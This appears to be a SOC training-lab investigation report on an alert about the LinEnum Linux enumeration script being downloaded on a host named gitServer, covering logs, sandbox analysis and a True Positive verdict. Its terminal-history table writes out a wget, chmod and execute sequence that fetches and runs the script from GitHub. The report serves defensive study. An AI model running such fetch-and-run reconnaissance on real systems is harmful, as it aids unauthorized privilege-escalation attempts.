




# SOC123 – Enumeration Tool Detected (Event ID 56)

## 1. Alert Overview

| Field | Details |
|---|---|
| Event ID | 56 |
| Alert Rule | SOC123 – Enumeration Tool Detected |
| Event Time | `2021-02-13 16:47:40 UTC+03:00` |
| Alert Type | Proxy |
| Difficulty | Beginner |
| Username | `Jack` |
| Source Host | `gitServer` |
| Source IP | `172.16.20.4` |
| Destination IP | `185.199.109.133` |
| Destination Host | `githubusercontent.com` |
| User-Agent | `Wget/1.19.4 (linux-gnu)` |
| Requested URL | [`https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh) |
| Device Action | **Allowed** |
| MITRE ATT&CK | T1133 — External Remote Services (as provided by the alert) |
| Final Verdict | **True Positive** |

## 2. Investigation Findings

### 2.1. Proxy and Firewall Log Analysis

Log Management showed two records for traffic from `172.16.20.4` to `185.199.109.133`.

- **Proxy log:** The raw log records a request to `https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`, with the device action set to **Allowed**.
- **Firewall log:** A related record was present, but the log contained no additional raw-log details.

The Proxy record confirms that the host requested the script from GitHub's raw-content service and that the request was allowed.





### 2.2. URL and Script Analysis

The requested URL points to `LinEnum.sh` in the public `rebootuser/LinEnum` GitHub repository.

The URL was assessed as **Malicious** in the lab. Any.Run analysis showed Bash script content beginning with:

```bash
#!/bin/bash
#A script to enumerate local information from a Linux host
version="version 0.982"
```

The script identifies itself as a Linux enumeration tool. LinEnum collects local system information and checks for potential security weaknesses, including conditions that could enable privilege escalation. Although enumeration tools can be used during legitimate security assessments, their use without authorization can indicate reconnaissance on a compromised host.





### 2.3. Endpoint Terminal History

The endpoint terminal history showed the following commands:

| Time | Command |
|---|---|
| 16:47 | `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -o /tmp/ah22idah.sh` |
| 16:48 | `clear` |
| 16:49 | `chmod +x /tmp/ah22idah.sh` |
| 16:50 | `./tmp/ah22idah.sh` |

The sequence suggests an attempt to retrieve the script, make a file executable, and launch a script shortly afterward.

### 2.4. Timeline Correlation

The evidence forms the following sequence:

1. At 16:47, the terminal history records a `wget` command referencing the LinEnum URL.
2. The Proxy log confirms that the request was allowed.
3. At 16:49, the terminal history records an attempt to make a file executable.
4. At 16:50, the history records a command intended to execute a script.
5. Any.Run demonstrated the behavior of the script submitted for sandbox analysis.

Taken together, these records support a suspicious enumeration scenario. Sandbox behavior describes what the analyzed script did in the sandbox environment; the endpoint history provides the contextual evidence for activity on `gitServer`.

## 3. Playbook Investigation

### 3.1. Analyze URL Address

**Answer: Malicious**

The lab's URL analysis and Any.Run investigation identified the requested LinEnum script as malicious in this context.

### 3.2. Has Anyone Accessed the IP/URL/Domain?

**Answer: Accessed**

The Proxy log records a request from `172.16.20.4` to `185.199.109.133`. The device action was **Allowed**, supporting the playbook answer that the URL was accessed.

## 4. Final Assessment

**Verdict: True Positive**

The alert is classified as a True Positive because the investigation identified an allowed request for a Linux enumeration script, followed by terminal-history entries indicating attempts to make a script executable and launch it. LinEnum is capable of gathering local system information and identifying potential privilege-escalation opportunities.

The combined Proxy, terminal-history, URL-analysis, and sandbox findings support suspicious enumeration activity on `gitServer`. The evidence provided does not establish successful privilege escalation, credential theft, or further compromise.
